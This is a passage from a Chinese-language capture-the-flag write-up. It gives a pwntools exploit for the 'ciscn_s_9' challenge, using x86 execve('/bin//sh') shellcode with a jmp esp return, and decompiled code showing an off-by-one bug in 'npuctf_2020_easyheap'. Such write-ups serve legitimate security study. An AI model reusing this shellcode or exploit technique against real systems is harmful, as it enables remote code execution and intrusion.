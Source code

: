 

```python
# coding=utf-8
from pwn import *

p = process("./ciscn_s_9")
p=remote('node4.buuoj.cn','26416')
ret_addr = 0x08048554 #jmp esp
context.arch='i386'
code='''
push 0x68
push 0x732f2f2f
push 0x6e69622f 
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0xb  
int 0x80
'''
shellcode = asm(code)
payload = shellcode.ljust(0x24,'a') + p32(ret_addr) + asm("sub esp,40;call esp")
print(len(payload))

#gdb.attach(p)
p.sendline(payload)
p.interactive()
```

## 2.npuctf_2020_easyheap(off-by-one)

常规菜单，功能齐全，就是限制了输入chunk的大小为24和56，小问题，漏洞在edit可以多输入一个字节

edit

```c
unsigned __int64 edit()
{
  int v1; // [rsp+0h] [rbp-10h]
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 < 0 || v1 > 9 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *((_QWORD *)&heaparray + v1) )
  {
    printf("Content: ");
    read_input(*(_QWORD *)(*((_QWORD *)&heaparray + v1) + 8LL), **((_QWORD **)&heaparray + v1) + 1LL);
    puts("Done!");
  }
  else
  {
    puts("How Dare you!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
